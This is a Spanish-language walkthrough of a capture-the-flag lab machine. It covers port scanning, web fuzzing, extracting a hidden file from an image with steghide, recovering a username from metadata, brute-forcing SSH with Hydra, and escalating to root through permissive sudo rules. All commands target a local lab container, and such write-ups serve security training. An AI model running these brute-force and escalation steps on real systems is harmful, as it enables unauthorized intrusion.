



<p align="center">
    
</p>

Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>


---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>

**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                                       |
| ------ | ------ | -------- | --------------------------------------------- |
| 22/tcp | open   | ssh      | OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0) |
| 80/tcp | open   | http     | Apache httpd 2.4.59 ((Debian))                |

---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
<p align="center">
    
</p>

Nos muestra una imagen de un huevo kinder. Podemos tomas las palabras como posibles usuarios o contraseña. Pero antes voy a realizar un reconocimiento de posibles directorios o archivos realizando `fuzzing web`.

#### Fuzzing Web

Primero vamos a usar la herramienta `dirb`, que realiza un escaneo rápido.
```
dirb http://172.17.0.2
```

<p align="center">
    
</p>


No encuentra mucho, así que realizamos un segundo escaneo con la herramienta `gobuster`.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,asp,aspx
```

<p align="center">
    
</p>

Tampoco nos encuentra mucho. Así que realizaremos un ataque de fuerza bruta para comprobar que `tails` es un usuario y poder ver si conseguimos su contraseña.

---

## Estenografía

Descargamos la imagen, y una vez descargada vamos a intentar ver si hay algún archivo oculto con el comando. Nos pedirá una passphrase como no tenemos le damos a enter y vemos que realmente si que había un archivo oculto llamado `secreto.txt`.
```
steghide extract -sf imagen.jpeg
```

<p align="center">
    
</p>


Nos descargó un fichero llamado `secreto.txt`.

<p align="center">
    
</p>

Leemos el contenido
```
cat secreto.txt
```

<p align="center">
    
</p>

Nos da una pista. Atendiendo a el mensaje,  intentamos buscar más información dentro de esta imagen como son los metadatos de está usando la herramienta `exiftool`, por lo cual usando el comando.
```
exiftool imagen.jpeg 
```

<p align="center">
    
</p>

Los metadatos nos arroja un usuario `borazuwarah`. Así que teniendo el usuario, podemos realiza fuerza bruta al protocolo `SSH` por medio de `HYDRA`.

## Explotación

#### Hydra
Teniendo un usuario, realizamos la fuerza bruta para encontrar la contraseña de dicho usuario
```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    
</p>


Encontramos la contraseña del usuario `borazuwarah`. Por lo que iniciamos sesión en el protocolo `SSH`.
```
ssh borazuwarah@172.17.0.2     # después ponemos la contraseña 123456
```

<p align="center">
    
</p>

Entramos como usuario `borazuwarah`.

---

## Escalada de privilegios

Comprobamos que binarios puede ejecutar el usuario `tails`.
```
sudo -l
```

<p align="center">
    
</p>

Nos indica que el usuario `borazuwarah` puede ejecutar varios binarios:
- **`(ALL: ALL) ALL`:**
    - Esta línea significa que el usuario `borazuwarah` puede ejecutar cualquier comando en cualquier archivo o directorio como cualquier usuario. Es una configuración muy permisiva y podría representar un riesgo de seguridad si no se administra correctamente.
    
- **`(ALL) NOPASSWD: /bin/bash`:**
    - Esta línea indica que el usuario `borazuwarah` puede ejecutar el comando `/bin/bash` (el shell de Bash) sin tener que ingresar la contraseña de root. Esto le permite abrir una nueva sesión de shell con privilegios de root.


Realizo lo mas fácil, ya que podemos ejecutar cualquier binario como cualquier usuario y tenemos la contraseña pues directamente cambio al usuario `root`.
```
sudo su    # Después ponemos la contraseña 123456
```

<p align="center">
    
</p>

Como también el usuarios `borazuwarah` puede ejecutar el binario `/bin/bash` como si fuera el usuario `root` y sin proporcionar ninguna contraseña, ejecuto una `bash` como el usuario `root`.
```
sudo -u root /bin/bash
```

<p align="center">
    
</p>


Y de las dos formas somos usuario `root`.

